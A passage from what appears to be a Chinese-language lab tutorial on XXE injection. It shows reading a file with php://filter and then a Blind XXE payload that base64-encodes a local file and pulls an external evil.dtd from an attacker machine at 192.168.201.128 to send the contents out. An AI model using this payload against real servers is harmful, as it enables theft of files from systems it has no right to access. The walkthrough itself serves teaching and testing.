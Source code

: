 [![](assets/1698897471-3d47a5a8ebaebe984044cb773cfb735f.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151724-c9bd6404-14d3-1.jpg)  
当然，也可以使用`php://filter`协议读取 qwzf.txt 文件内容 (也可以读取其他类型的文件，如：php 文件)

```plain
php://filter/read=convert.base64-encode/resource=
```

1.  无回显

修改源码，禁掉输出代码和报错信息，改成无回显。  
[![](assets/1698897471-54fdf325bf20d983ac4eb6f637075d6f.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151758-dde2ceb0-14d3-1.jpg)  
遇到无回显，可以通过`Blind XXE`方法加上外带数据通道来提取数据，先使用`php://filter`协议获取目标文件的内容，然后将内容以`http`请求发送到攻击服务器来读取数据。虽无法直接查看文件内容，但我们可以使用易受攻击的服务器作为代理，在外部网络上执行扫描以及代码。即，当无回显情况时，可以将数据发送到远程服务器 (攻击服务器)。

这里我使用的攻击机 ip 为：`192.168.201.128`

构造 payload

```plain
<?xml version="1.0"?>
<!DOCTYPE test[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=D:/qwzf.txt">
<!ENTITY % dtd SYSTEM "http://192.168.201.128/evil.dtd">
%dtd;
%send;
]>
```

